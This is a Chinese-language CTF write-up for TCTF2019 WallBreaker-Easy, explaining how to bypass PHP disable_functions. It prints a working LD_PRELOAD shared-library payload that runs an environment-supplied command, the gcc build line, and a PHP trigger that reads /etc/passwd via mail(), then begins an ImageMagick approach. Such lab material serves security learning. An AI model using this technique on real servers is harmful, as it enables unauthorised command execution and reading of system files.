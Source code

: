 # Wallbreaker\_Easy

## Wallbreaker\_Easy

## 考点

## wp

TCTF2019 WallBreaker-Easy

提示

> Imagick is a awesome library for hackers to break `disable_functions`.&#x20;
>
> So I installed php-imagick in the server, opened a `backdoor` for you.
>
> Let's try to execute `/readflag` to get the flag.&#x20;
>
> Open basedir: /var/www/html:/tmp/ebe1d01ac021c4a3e68eb5bbdc842e69
>
> Hint: eval($\_POST\["backdoor"]);

给了shell，要命令执行，但是有disable\_functions。这题就是bypass disable\_functions

![](<../.gitbook/assets/image (7).png>)

### 利用LD\_PRELOAD变量

> LD\_PRELOAD 是一个可选的 Unix 环境变量，包含一个或多个共享库或共享库的路径，加载程序将在包含 C 运行时库（libc.so）的任何其他共享库之前加载该路径。这称为预加载库。
>
> 也就是说它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。即我们可以自己生成一个动态链接库加载，以覆盖正常的函数库，也可以注入恶意程序，执行恶意命令。

该方法绕过disable\_functions的原理就是劫持系统函数，使程序加载恶意动态链接库文件，从而执行系统命令。

通用动态链接库代码

```c
#include <stdlib.h>
__attribute__((constructor)) void hack(){
    unsetenv("LD_PRELOAD");
    if (getenv("cmd") != NULL){
        system(getenv("cmd"));
    }else{
        system("echo 'no cmd' > /tmp/cmd.output");
    }
}
```

> 利用 GNU C 中的特殊语法 `__attribute__ ((attribute-list))`，当参数为 constructor 时就可以在加载共享库时运行，通常是在程序启动过程中，因为带有”构造函数”属性的函数将在 main() 函数之前被执行，类似的，若是换成 destructor 参数，则该函数会在 main() 函数执行之后或者 exit() 被调用后被自动执行
>
> 在 PHP 运行过程中只要有新程序启动，在我们加载恶意动态链接库的条件下，便可以执行 .so 中的恶意代码

使用`strace -f php -r "mail('','','','');" 2>&1 | grep -E "execve|fork|vfork"`可以看到当 PHP 执行 mail() 函数的时候有没有执行程序或者启动新进程



使用`gcc --share -fPIC bad.c -o bad.so`生成动态链接库，上传到目标机器

再使用如下语句就可以执行任意命令，除了`mail()`函数，还可以使用`error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`

```php
<?php
putenv("cmd=cat /etc/passwd");
putenv("LD_PRELOAD=./bad.so");
mail('','','','');
```

但是这题使用上面的方法是不行的，因为BUU的环境有权限限制，无法上传文件。考虑使用ImageMagick bypass disable\_functions

ImageMagick在处理一些类型的文件的时候需要依赖其他软件，例如`Ghostscript`，但是默认禁止了使用`Ghostscript`处理pdf，ps，epi和xps的文件类型，`Ghostscript`能处理的如下

```
EPI  EPS  EPS2 EPS3 EPSF EPSI EPT PDF PS PS2 PS3
```

只有ept能使用。



## 小结

1. [TCTF2019 WallBreaker-Easy 解题分析](https://xz.aliyun.com/t/4688)
